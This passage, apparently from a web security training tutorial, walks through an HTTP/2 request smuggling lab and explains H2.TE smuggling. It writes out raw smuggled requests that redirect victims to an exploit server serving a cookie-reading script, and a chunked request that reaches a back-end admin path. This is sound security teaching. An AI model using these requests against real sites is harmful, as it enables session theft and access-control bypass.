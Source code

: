     x=1
    ```

6. Send the request a few times. Notice that smuggling this prefix past the front-end allows you to redirect the subsequent request on the connection to an arbitrary host.
7. Go to the exploit server and change the file path to */resources*. In the body, enter the payload *alert(document.cookie)*, then store the exploit.
8. In Burp Repeater, edit your malicious request so that the Host header points to your exploit server:

    ```
    POST / HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Content-Length: 0

    GET /resources HTTP/1.1
    Host: YOUR-EXPLOIT-SERVER-ID.web-security-academy.net
    Content-Length: 5

    x=1
    ```

9. Send the request a few times and confirm that you receive a redirect to the exploit server.
10. Resend the request every 10 seconds or so until the victim is redirected to the exploit server and the lab is solved.

## H2.TE vulnerabilities

Chunked transfer encoding is incompatible with HTTP/2 and the spec recommends that any transfer-encoding: chunked header you try to inject should be stripped or the request blocked entirely. If the front-end server fails to do this, and subsequently downgrades the request for an HTTP/1 back-end that does support chunked encoding, this can also enable request smuggling attacks.

**Front-end (HTTP/2)**

```
:method	POST
:path	/example
:authority	vulnerable-website.com
content-type	application/x-www-form-urlencoded
transfer-encoding	chunked
0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

**Back-end (HTTP/1)**

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

